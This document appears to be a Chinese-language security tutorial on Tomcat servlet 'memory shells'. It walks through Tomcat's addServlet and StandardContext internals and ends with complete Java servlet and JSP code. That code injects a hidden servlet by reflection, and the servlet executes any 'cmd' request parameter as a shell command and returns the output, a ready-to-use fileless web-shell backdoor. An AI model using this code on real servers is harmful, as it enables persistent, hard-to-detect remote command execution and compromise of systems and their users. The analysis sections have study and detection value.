

# Java Security Of Tomcat Servlet

## Preparation

​	在`Tomcat`架构中，`Servlet`的生命周期分为五个部分：

- 加载阶段：当`Tomcat`第一次访问`Servlet`时，会创建`Servlet`的实例。
- 初始化阶段：当`Servlet`实例化后，`Tomcat`会调用`init`方法初始化这个对象。
- 处理服务阶段：当浏览器访问`Servlet`时，`Servlet`会调用`service`方法处理请求。
- 销毁阶段：当`Tomcat`关闭时或者检测到`Servlet`要从`Tomcat`删除时，会自动调用`destroy`方法，让该实例释放掉所占的资源。除此之外，一个`Servlet`如果长时间不被使用的话，也会被`Tomcat`自动销毁。
- 卸载阶段：当`Servlet`调用完`destroy`方法后，会等待垃圾回收。如果有需要再次使用这个`Servlet`时，会重新调用`init`方法进行初始化操作。

```java
public interface Servlet {
	// 由servlet容器调用，向servlet表明该servlet正在被投入服务。
	// 在实例化servlet之后，servlet容器正好调用init方法一次。在servlet可以接收任何请求之前，init方法必须成功完成。
	// 如果init方法出现以下情况，servlet容器就不能将servlet放入服务中
	// 抛出一个ServletException
	// 在Web服务器定义的时间段内没有返回
	public void init(ServletConfig config) throws ServletException;

	// 返回一个ServletConfig对象，其中包含该Servlet的初始化和启动参数。返回的ServletConfig对象是传递给init方法的对象。
	// 这个接口的实现负责存储ServletConfig对象，以便这个方法能够返回它。实现这个接口的GenericServlet类已经做到了这一点。
	public ServletConfig getServletConfig();  

	// 由servlet容器调用，允许servlet对请求作出响应。
	// 这个方法只有在servlet的init()方法成功完成后才会被调用。
	// 对于抛出或发送错误的servlet，响应的状态代码总是应该被设置。
	// Servlet通常在多线程的Servlet容器内运行，可以同时处理多个请求。开发人员必须注意同步访问任何共享资源，如文件、网络连接和以及servlet的类和实例变量。关于Java中多线程编程的更多信息，可以在Java多线程编程教程中找到。
    public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException;

	// 返回有关Servlet的信息，如作者、版本和版权。
	// 该方法返回的字符串应该是纯文本，而不是任何形式的标记（如HTML、XML等）。
    public String getServletInfo();

    // 由servlet容器调用，向servlet表明该servlet将被退出服务。只有在servlet的服务方法中的所有线程都退出后，或者在超时期过后，才会调用这个方法。在servlet容器调用该方法后，它将不再调用该servlet的服务方法。
    // 这个方法给了servlet一个机会来清理任何被保留的资源（例如，内存、文件句柄、线程），并确保任何持久化状态与servlet在内存中的当前状态同步。
    public void destroy();
}
```

## Process Analysis

​	与`Filter`内存马类似，在`javax.servlet.ServletContext`中同样存在着`addServlet`和`createServlet`方法。


​	跟进`addServlet`的实现方法`org.apache.catalina.core.ApplicationContext#addServlet`，在该方法中，先对传入的`servletName`进行检测，为空时会抛出异常。接着判断`context`的生命周期，如果处于`LifecycleState.STARTING_PREP`状态，同样会抛出异常。接着通过`servletName`从`context`中寻找相关联的子容器，并将其转换成`Wrapper`对象，当不存在时，会创建一个名字为`servletName`的`wrapper`，再将创建的`wrapper`添加到`context`的子容器中。最后判断`servlet`是否为`null`，当`servlet == null`时，会将传入的`servletClass`设置进`wrapper`中。最后调用`org.apache.catalina.core.StandardContext#dynamicServletAdded`方法进行`servlet`动态加载。


​	跟进`org.apache.catalina.core.StandardContext#dynamicServletAdded`方法，实例化一个`ApplicationServletRegistration`对象。


​	在`org.apache.catalina.core.StandardContext#startInternal`方法中，注意到`servlet`构造时调用的`loadOnStartup`方法中，会获取`loadOnStartup`的值，此时只有`loadOnStartup`的值大于`0`才会进行`wrapper`的加载。


## Achievement

### Idea

​	动态注入`Servlet`内存马的具体思路如下:

1. 调用`StandardContext.createWrapper`为`servlet`创建`wrapper`；
2. 配置`LoadOnStartup`启动优先级；
3. 配置`ServletName`；
4. 配置`ServletClass`；
5. `addChild`添加`wrapper`到`Context`；
6. `addServletMapping`添加映射。

### Dynamic Registration

#### Servlet

```java
package servlet;

import org.apache.catalina.Wrapper;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.StandardContext;

import javax.servlet.*;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.util.Scanner;

@WebServlet(name = "ServletMemoryShellServlet", value = "/ServletMemoryShellServlet")
public class ServletMemoryShellServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        super.doGet(request, response);
    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) {
        try {
            ServletContext servletContext = request.getSession().getServletContext();
            Field context = servletContext.getClass().getDeclaredField("context");
            context.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) context.get(servletContext);
            Field context1 = applicationContext.getClass().getDeclaredField("context");
            context1.setAccessible(true);
            StandardContext standardContext = (StandardContext) context1.get(applicationContext);

            String servletMapping = standardContext.findServletMapping("servletMemoryShell");
            if (servletMapping != null) {
                return;
            }

            Wrapper wrapper = standardContext.createWrapper();
            wrapper.setName("servletMemoryShell");
            Servlet servletMemoryShell = new Servlet() {
                public void init(ServletConfig servletConfig) {
                }

                public ServletConfig getServletConfig() {
                    return null;
                }

                public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws IOException {
                    HttpServletRequest httpServletRequest = (HttpServletRequest) servletRequest;
                    HttpServletResponse httpServletResponse = (HttpServletResponse) servletResponse;

                    if (httpServletRequest.getParameter("cmd") != null) {
                        boolean isLinux = true;
                        String osType = System.getProperty("os.name");
                        if (osType != null && osType.toLowerCase().contains("win")) {
                            isLinux = false;
                        }

                        String[] command = isLinux ? new String[]{"sh", "-c", httpServletRequest.getParameter("cmd")} : new String[]{"cmd.exe", "/c", httpServletRequest.getParameter("cmd")};
                        InputStream inputStream = Runtime.getRuntime().exec(command).getInputStream();
                        Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                        String output = scanner.hasNext() ? scanner.next() : "";
                        httpServletResponse.getWriter().write(output);
                        httpServletResponse.getWriter().flush();
                    }
                }

                public String getServletInfo() {
                    return null;
                }

                public void destroy() {
                }
            };
            wrapper.setLoadOnStartup(1);
            wrapper.setServlet(servletMemoryShell);
            wrapper.setServletClass(servletMemoryShell.getClass().getName());

            standardContext.addChild(wrapper);
            standardContext.addServletMapping("/servletMemoryShell", "servletMemoryShell");

            response.getWriter().write("Servlet Inject Successfully...");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```


#### JSP

```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
    ServletContext servletContext = request.getSession().getServletContext();
    Field context = servletContext.getClass().getDeclaredField("context");
    context.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) context.get(servletContext);
    Field context1 = applicationContext.getClass().getDeclaredField("context");
    context1.setAccessible(true);
    StandardContext standardContext = (StandardContext) context1.get(applicationContext);

    String servletMapping = standardContext.findServletMapping("servletMemoryShell");
    if (servletMapping != null) {
        return;
    }

    Wrapper wrapper = standardContext.createWrapper();
    wrapper.setName("servletMemoryShell");
    Servlet servletMemoryShell = new Servlet() {
        public void init(ServletConfig servletConfig) {
        }

        public ServletConfig getServletConfig() {
            return null;
        }

        public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws IOException {
            HttpServletRequest httpServletRequest = (HttpServletRequest) servletRequest;
            HttpServletResponse httpServletResponse = (HttpServletResponse) servletResponse;

            if (httpServletRequest.getParameter("cmd") != null) {
                boolean isLinux = true;
                String osType = System.getProperty("os.name");
                if (osType != null && osType.toLowerCase().contains("win")) {
                    isLinux = false;
                }

                String[] command = isLinux ? new String[]{"sh", "-c", httpServletRequest.getParameter("cmd")} : new String[]{"cmd.exe", "/c", httpServletRequest.getParameter("cmd")};
                InputStream inputStream = Runtime.getRuntime().exec(command).getInputStream();
                Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                String output = scanner.hasNext() ? scanner.next() : "";
                httpServletResponse.getWriter().write(output);
                httpServletResponse.getWriter().flush();
            }
        }

        public String getServletInfo() {
            return null;
        }

        public void destroy() {
        }
    };
    wrapper.setLoadOnStartup(1);
    wrapper.setServlet(servletMemoryShell);
    wrapper.setServletClass(servletMemoryShell.getClass().getName());

    standardContext.addChild(wrapper);
    standardContext.addServletMapping("/servletMemoryShell", "servletMemoryShell");

    response.getWriter().write("Servlet Inject Successfully...");
%>
```




